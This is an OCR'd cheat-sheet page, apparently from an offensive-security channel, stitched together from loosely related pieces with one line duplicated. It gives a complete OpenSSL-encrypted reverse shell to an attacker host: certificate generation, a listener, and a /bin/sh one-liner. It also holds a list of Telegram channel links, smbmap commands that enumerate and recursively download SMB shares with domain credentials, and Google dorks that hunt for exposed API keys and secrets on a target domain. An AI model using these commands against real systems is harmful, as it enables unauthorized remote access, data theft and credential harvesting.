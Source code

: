 


##  OpenSSL Encrypted Reverse Shell


##  Generate certificate:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes


##  Listener: 
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>


##  Reverse Shell:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s










https://t.me/incidentresponse
https://t.me/sudapodoshel/2
https://t.me/sudapodoshel/2721
https://t.me/RSTReportHub
https://t.me/LibraLair
https://t.me/avleonovnews
https://t.me/SqlDumps/104
http://t.me/combatosint
https://t.me/BoomSecOfficial
https://t.me/thewhiteh4t




#ShadowBrokers



smbmap --host-file hosts.txt > smbmapresults.txt



smbmap -u domainusername -p 'supersecretpassword' -d domain.local --host-file /home/<user>/Documents/smbmap/hosts.txt > result.txt



smbmap -u domainusername -p 'supersecretpassword' -d domain.local --host-file /home/<user>/mappashares/testdownload/test2.txt -R -A '.\.bat\b'


##  Search for APIs
site:target.tld inurl:api
intitle:"index of" "api.yaml" site:target.tld
intitle:"index of" intext:"apikey.txt" site:target.tld
allintext:"API_SECRET*" ext:env | ext:yml site:target.tld
